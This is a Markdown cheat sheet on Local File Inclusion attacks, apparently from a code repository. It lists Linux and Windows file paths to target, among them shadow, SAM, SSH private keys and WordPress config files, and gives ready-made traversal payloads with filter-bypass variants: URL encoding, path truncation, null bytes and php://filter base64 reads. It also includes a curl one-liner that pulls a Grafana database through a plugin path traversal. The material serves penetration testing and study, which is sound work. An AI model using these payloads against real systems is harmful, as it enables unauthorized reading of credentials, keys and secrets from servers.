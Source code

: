 ### **Introduction**

Local File Inclusion (LFI) is a type of vulnerability in web applications that allows an attacker to read and potentially execute files on the server that hosts the web application. This occurs when an application includes files without properly sanitizing user input, allowing paths to unintended files to be injected. LFI can lead to information disclosure and remote code execution.

### **Common LFI Paths on Linux Systems**

1.  Accesses the system user account and password file.  
    `/etc/passwd`
2.  Reads the root user email files.  
    `/var/mail/root`
3.  Retrieves SSH private keys from a user home directory.  
    `/home/user/.ssh/id_rsa`
4.  Reads the Apache web server access log.  
    `/var/log/apache2/access.log`
5.  Accesses WordPress configuration files typically located in web server directories    
    `/var/www/html/wp-config.php`
6.  Reads the shadow file containing encrypted passwords and related information for user accounts.  
    `/etc/shadow`
7. `curl --path-as-is http://[DOMAIN_NAME]/public/plugins/alertGroups/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db`

### **Common LFI Paths on Windows Systems**

1. Retrieves the Windows initialization file, which contains settings.
	`\windows\win.ini`
3.  Retrieves SSH private keys in the user directory.  
    `C:/Users/viewer/.ssh/id_rsa`
4. IIS WEb config file
				 `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config`
	`C:\inetpub\wwwroot\web.config`

6.  Accesses the system hosts file, which contains network information.  
    `C:/Windows/System32/drivers/etc/hosts`
3.  Reads IIS web server log files, which can be exploited for further attacks.  
    `C:/inetpub/logs/LogFiles/W3SVC1/u_ex<date>.log`
4.  Accesses the boot configuration data with startup settings.  
    `C:/boot.ini`
5.  Reads the autoexec batch file used in older versions of Windows for global environment settings.  
    `C:/autoexec.bat`
6.  Accesses the hosts file to view or manipulate network settings.  
    `C:/windows/system32/drivers/etc/hosts`
7.  Retrieves the Security Accounts Manager file storing user credentials.  
    `C:/windows/repair/SAM`
8.  Accesses the WordPress configuration file on XAMPP installations.  
    `../../../../../../../../xampp/htdocs/blog/wp-config.php`
9.  Retrieves SSH private keys from a user profile.  
    `../../../../../../../../Users/Viewer/.ssh/id_rsa`

### **LFI Filter Bypassing Techniques**

Techniques for bypassing LFI filters using path traversal, filter bypasses, and encoding:

1.  Basic LFI: Displays the system password file.  
    `/index.php?language=/etc/passwd`
2.  Path Traversal LFI: Uses directory traversal to access critical system files.  
    `/index.php?language=../../../../etc/passwd`
3.  Name Prefix LFI: Similar to basic path traversal with different path depth.  
    `/index.php?language=/../../../etc/passwd`
4.  Approved Path LFI: Bypasses restrictions by starting with an allowed path.  
    `/index.php?language=./languages/../../../../etc/passwd`
5.  Basic Path Traversal Bypass: Uses obscure sequences to bypass simple traversal filters.  
    `/index.php?language=....//....//....//....//etc/passwd`
6.  URL Encoding Filter Bypass: Encodes traversal sequences to evade detection.  
    `/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64`
7.  Path Truncation: Uses deep recursion to force path truncation.  
    `/index.php?language=non_existing_directory/../../../etc/passwd/./././.[REPEATED ~2048 times]`
8.  Null Byte Obsolescence: Appends a null byte to terminate the string prematurely (not effective on modern systems).  
    `/index.php?language=../../../../etc/passwd%00`
9.  Base64 PHP Reading: Encodes PHP files into base64 for safer retrieval.  
    `/index.php?language=php://filter/read=convert.base64-encode/resource=config`